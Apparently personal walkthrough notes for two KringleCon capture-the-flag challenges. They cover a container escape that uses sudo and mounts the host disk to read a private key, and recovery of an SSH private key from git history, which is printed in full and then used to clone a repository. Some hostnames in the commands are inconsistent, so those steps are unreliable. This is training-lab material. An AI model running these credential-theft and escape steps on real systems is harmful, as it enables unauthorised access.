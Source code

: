 - change to `git clone https://haugfactory.com/asnowball/aws_scripts.git`

```    
cd aws_scripts && cat README.md
    
runtoanswer maintainers
```

## Prison Escape:

- samways can sudo to root

```    
sudo -s
cd /mnt && mkdir breakout
mount /dev/vda breakout
cd /breakout/home/jailer/.ssh
cat jail.key.priv
```
#### Flag: `one step closer 082bb339ec19de4935867`

## Jolly CI/CD:

```    
mkdir web shell
cd web && git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
cd wordpress.flag.internal
git log
```
- look for **"whoops"** in comments

```
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
ls -lah
```
- reveals that a **.ssh** was accidentally included in the push and subsequently removed

```    
cp -r .ssh ~/.ssh

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU59wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com

cd && chmod 700 .ssh && cd .ssh

touch known_hosts && mv .deploy deploy && mv .deploy.pub deploy.pub
    
chmod 600 deploy && chmod 644 deploy.pub && cd ~/shell
    
eval $(ssh-agent -s)
    
ssh-add ~/.ssh/deploy
    
ssh -Tvvvv git@gitlab.flags.net.internal
    
git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
```
